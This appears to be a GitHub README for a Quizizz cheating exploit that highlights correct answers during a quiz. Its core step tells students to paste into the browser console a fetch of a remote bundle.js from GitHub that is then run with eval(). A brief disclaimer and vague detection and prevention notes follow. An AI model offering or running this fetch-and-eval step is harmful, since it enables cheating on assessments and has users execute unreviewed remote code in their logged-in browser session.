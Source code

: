 
# Project Beta
## Fetching Quizizz API

## DISCLAMER: I am not using this for cheating, or hacking... I just want to test how this exploit works and make a patch for teachers later.

It should work in Test and Classic mode.
1. Join Quiz
2. Open console and paste this
```ts
fetch("https://raw.githubusercontent.com/acimovicuwu/nijeNistaSumnjivo/master/dist/bundle.js")
.then((res) => res.text()
.then((t) => eval(t)))
```
3. You can now close the console. The good answers should be highlighted by background opacity.

## HOW TO DETECT

Currently there is no way...

## HOW TO PREVENT

Prevent this exploit by marking wrong answers and than marking it by hand.

## WHEN WILL WE HAVE A PATCH

Soon(is) i expect around March

## IS THIS ILIGAL

If you are student you can get in truble.

## HOW TO SPREAD AN ISSUE

Email quizzies at: support@quizizz.com
With your conserns.



